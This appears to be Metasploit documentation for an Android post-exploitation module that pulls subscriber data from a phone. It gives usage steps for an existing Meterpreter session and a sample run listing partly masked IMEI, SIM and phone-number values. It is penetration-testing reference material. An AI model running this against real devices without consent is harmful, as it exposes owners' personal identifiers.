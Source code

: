 ## Vulnerable Application

  This post-exploitation module will extract subscriber information
  from the target device using  call service service call iphonesubinfo <transaction_code>.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/sub_info`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted subsriber information.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - subscribe information

## Scenarios


  ```
msf5 exploit(multi/handler) > use post/android/gather/sub_info
msf5 post(android/gather/sub_info) > set session 1
session => 1
msf5 post(android/gather/sub_info) > run

[!] SESSION may not be compatible with this module.
[*] using code : 1
[*] using code : 2
[*] using code : 3
[*] using code : 4
[*] using code : 5
[*] using code : 6
[*] using code : 7
[*] using code : 8
[*] using code : 9
[*] using code : 10
[*] using code : 11
[*] using code : 12
[*] using code : 13
[*] using code : 14
[*] using code : 15
[*] using code : 16
[*] using code : 17
[*] using code : 18
[*] using code : 19
[*] using code : 20
[*] using code : 21
[*] using code : 22
[*] using code : 23
[*] using code : 24
[*] using code : 25
[*] using code : 26
[*] using code : 27
[*] using code : 28
[*] using code : 29
Subscriber info
===============

 transaction code                      value
 ----------------                      -----
 CompleteVoiceMailNumber
 CompleteVoiceMailNumberForSubscriber
 DeviceId                              86928xxxxxxxxxx
 DeviceIdForSubscriber
 DeviceSvn                             8692890262xxxxx
 GroupIdLevel1                         4042772534xxxxx
 GroupIdLevel1ForSubscriber            4042772534xxxxx
 IccSerialNumber                       ff
 IccSerialNumberForSubscriber          ff
 IccSimChallengeResponse
 ImeiForSubscriber                     8692890xxxxxxxx
 IsimChallengeResponse
 IsimDomain                            Voicemail
 IsimImpi                              Voicemail
 IsimImpu
 IsimIst
 IsimPcscf
 Line1AlphaTag
 Line1AlphaTagForSubscriber
 Line1Number                           899127217xxxxxxxxxx
 Line1NumberForSubscriber              899127217xxxxxxxxxx
 Msisdn
 MsisdnForSubscriber
 SubscriberId                          01
 SubscriberIdForSubscriber             01
 VoiceMailAlphaTag
 VoiceMailAlphaTagForSubscriber
 VoiceMailNumber
 VoiceMailNumberForSubscriber

[*] Post module execution completed
msf5 post(android/gather/sub_info) >
  ```
